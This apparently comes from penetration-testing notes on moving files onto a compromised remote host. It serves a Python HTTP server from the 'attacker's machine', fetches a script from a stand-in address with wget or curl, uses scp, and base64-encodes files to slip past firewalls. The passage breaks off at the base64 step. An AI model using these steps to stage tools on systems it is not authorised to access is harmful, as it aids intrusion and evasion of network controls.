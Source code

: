 
### **Methods for Transferring Files**

### 1. **Using `wget` and `cURL`**

**Scenario**: You have command-line access to the remote host, and the host can reach your machine via network.

- **Python HTTP Server Setup on Attacker’s Machine**: Run a simple Python HTTP server to serve files from your directory.
    
    ```bash
    cd /path/to/your/file
    python3 -m http.server 8000
    
    ```
    
    This starts serving files from the directory on `http://your_ip:8000/`.
    
- **Download on the Remote Host (with `wget`)**: On the remote machine, download the file using:
    
    ```bash
    wget http://your_ip:8000/filename.sh
    
    ```
    
- **Alternative Download (with `cURL`)**: If `wget` is not available, use `cURL`:
    
    ```bash
    curl http://your_ip:8000/filename.sh -o filename.sh
    
    ```
    

---

### 2. **Using `scp` (Secure Copy)**

**Scenario**: You have SSH credentials for the remote host.

- Transfer a file to the remote machine using `scp`:
    
    ```bash
    scp filename.sh user@remotehost:/path/to/save/
    ```
    
- You will be prompted for the SSH password if not using key-based authentication.
    

---

### 3. **Using `base64` Encoding**

**Scenario**: Direct file transfers are blocked by firewalls, so you use a copy-paste method with base64 encoding.

- **Encode the File (Attacker’s Machine)**: Convert the file to a base64 string to avoid firewall issues.
    
    ```bash
    base64 filename -w 0
    ```
    